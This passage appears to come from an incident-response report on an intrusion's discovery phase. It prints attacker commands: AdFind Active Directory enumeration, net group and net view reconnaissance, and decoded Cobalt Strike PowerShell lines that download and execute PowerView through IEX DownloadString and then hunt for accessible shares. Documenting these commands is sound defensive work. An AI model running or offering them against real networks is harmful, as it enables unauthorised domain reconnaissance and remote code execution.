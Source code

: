 
```
cmd.exe /C C:\Windows\Temp\adf\adf.bat   
adfind.exe -f "(objectcategory=person)"   
adfind.exe -f "(objectcategory=organizationalUnit)"   
adfind.exe -f "objectcategory=computer"   
adfind.exe -sc trustdmp   
adfind.exe -subnets -f (objectCategory=subnet)   
adfind.exe -f "(objectcategory=group)"   
adfind.exe -gcb -sc trustdmp
```

PowerView was used to discover local administrator access in the network. The Cobalt Strike beacon itself was used as a proxy to connect and retrieve the PowerView file. 


[![](https://thedfirreport.com/wp-content/uploads/2021/07/05-Powerview-downlaoded-and-Local-Admin-Discovery-run.png)](https://thedfirreport.com/wp-content/uploads/2021/07/05-Powerview-downlaoded-and-Local-Admin-Discovery-run.png)


Cobalt Strike was injected into the winlogon.exe process and used to perform further discovery. 


[![](https://thedfirreport.com/wp-content/uploads/2021/07/06-More-CS-Discovery.png)](https://thedfirreport.com/wp-content/uploads/2021/07/06-More-CS-Discovery.png)



```
cmd.exe /C net group "domain Admins" /domain
cmd.exe /C net group "Enterprise Admins" /domain
cmd.exe /C ping WORKSTATION	
cmd.exe /C net view \\WORKSTATION /all	
cmd.exe /C net view \\DOMAINCONTROLLER /all	
cmd.exe /C dir /s
```

The following shows the decoded PowerShell commands used by Cobalt Strike to perform discovery. 


[![](https://thedfirreport.com/wp-content/uploads/2021/07/07-Pwshell-Commands-listing.png)](https://thedfirreport.com/wp-content/uploads/2021/07/07-Pwshell-Commands-listing.png)



```
IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:41046/'); Get-DomainController
IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:38102/'); Get-DomainComputer -Properties dnshostname
IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:35452/'); Get-DomainComputer -OperatingSystem *server* -Properties dnshostname
IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:61999/'); Get-DomainComputer -Properties dnshostname -Ping.
$dr=Get-WmiObject Win32_LogicalDisk; $total=0; foreach($i in $dr){ ; if($i.DriveType -eq 3 ){$diskFill = ([int]($i.Size/1GB)-[int]($i.FreeSpace/1GB));$total=$total+$diskFill;} } 'Total  ' + $env:computername +' ' + $total
IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:51127/'); Get-PSDrive
IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:34025/'); Invoke-ShareFinder -Ping -CheckShareAccess -Verbose | Out-File -Encoding ascii C:\ProgramData\shar.txt
```
